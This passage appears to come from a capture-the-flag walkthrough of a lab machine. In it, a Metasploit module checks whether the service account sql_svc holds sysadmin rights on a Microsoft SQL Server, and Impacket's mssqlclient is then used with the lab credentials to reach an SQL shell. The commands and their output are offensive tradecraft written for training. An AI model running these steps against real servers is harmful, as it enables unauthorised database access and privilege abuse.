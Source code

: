 For example, we can check if the sql_svc user has sysadmin privileges on database or not:

    msf6 > use auxiliary/admin/mssql/mssql_escalate_dbowner
    msf6 auxiliary(admin/mssql/mssql_escalate_dbowner) > show options
    
    Module options (auxiliary/admin/mssql/mssql_escalate_dbowner):
    
       Name                 Current Setting  Required  Description
       ----                 ---------------  --------  -----------
       PASSWORD                              no        The password for the specified username
       RHOSTS                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT                1433             yes       The target port (TCP)
       TDSENCRYPTION        false            yes       Use TLS/SSL for TDS data "Force Encryption"
       USERNAME             sa               no        The username to authenticate as
       USE_WINDOWS_AUTHENT  false            yes       Use windows authentification (requires DOMAIN option set)
    
    msf6 auxiliary(admin/mssql/mssql_escalate_dbowner) > setg RHOSTS 10.10.10.27
    RHOSTS => 10.10.10.27
    msf6 auxiliary(admin/mssql/mssql_escalate_dbowner) > setg USERNAME sql_svc
    USERNAME => sql_svc
    msf6 auxiliary(admin/mssql/mssql_escalate_dbowner) > setg PASSWORD M3g4c0rp123
    PASSWORD => M3g4c0rp123
    msf6 auxiliary(admin/mssql/mssql_escalate_dbowner) > setg USE_WINDOWS_AUTHENT true
    USE_WINDOWS_AUTHENT => true
    msf6 auxiliary(admin/mssql/mssql_escalate_dbowner) > setg DOMAIN ARCHETYPE
    DOMAIN => ARCHETYPE
    msf6 auxiliary(admin/mssql/mssql_escalate_dbowner) > run
    [*] Running module against 10.10.10.27
    
    [*] 10.10.10.27:1433 - Attempting to connect to the database server at 10.10.10.27:1433 as sql_svc...
    [+] 10.10.10.27:1433 - Connected.
    [*] 10.10.10.27:1433 - Checking if sql_svc has the sysadmin role...
    [+] 10.10.10.27:1433 - sql_svc has the sysadmin role, no escalation required.
    [*] Auxiliary module execution completed

In this case, sql_svc has the sysadmin role, so no escalation is required.
We can use also other Metasploit modules but let's go deep by using Impacket's mssqlclient.py:

    impacket-mssqlclient -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27
    Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
    [*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
    [!] Press help for extra shell commands
    SQL>
    
Now we can perform SQL query as we want as specified [here](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#abusing-mssql-trusted-links). For example, we can use the **`IS_SRVROLEMEMBER`** function to check if our SQL user has sysadmin privileges on the SQL Server:
